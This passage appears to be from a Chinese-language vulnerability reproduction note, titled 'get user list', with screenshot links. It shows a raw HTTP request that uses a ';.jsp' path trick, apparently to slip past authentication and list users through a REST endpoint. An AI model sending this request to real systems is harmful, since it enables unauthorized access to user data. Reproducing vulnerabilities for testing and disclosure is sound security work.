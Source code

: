 ![image-20240309181820733](assets/1710740090-368dc256119f3c2b5e435d06b02087e7.png)

获取用户列表

```http
GET /xxx?jsp=/app/rest/users;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: \*/\*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate
```

![image-20240309181839486](assets/1710740090-9dd54c096ae2a7eb028162079abfc96c.png)
